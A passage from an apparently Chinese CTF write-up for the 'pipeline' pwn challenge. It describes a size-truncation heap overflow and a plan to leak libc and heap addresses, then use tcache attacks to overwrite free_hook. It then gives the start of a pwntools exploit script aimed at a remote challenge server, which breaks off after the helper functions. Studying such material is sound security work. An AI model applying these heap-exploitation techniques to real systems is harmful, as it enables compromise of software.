 

### pipeline

百度到的2018年强网杯也有 realloc + no free 的题目，文艺复兴2333

append函数取4字节判断`size`和`chunksize-offset`大小，取小的数值转换为2字节作为允许输入的长度，输入一个第四位为0的负数就能随便溢出

开始的时候用一个堆块保存堆块的地址和最大长度，用来限制realloc的堆块的范围

思路是从unsortedbin泄露libc地址，从fastbin泄露堆地址，tcache attack打链表结构，来破坏堆块的限制，然后就是tcache attack打free_hook了

```python
#!/usr/bin/python

from pwn import *
import sys

context.log_level = 'debug'
context.arch='amd64'

local=0
binary_name='pipeline'
libc_name='libc.so.6'


libc=ELF("./"+libc_name)
e=ELF("./"+binary_name)

if local:
    p=process("./"+binary_name)
else:
    p=remote('59.110.173.239', 2399)

def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass
      
ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()
def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

def cho(num):
	sla('>> ',str(num))

def add():
	cho(1)

def edit(idx, off, sz):
	cho(2)
	sla('index: ', str(idx))
	sla('offset:', str(off))
	sla('size: ', str(sz))

```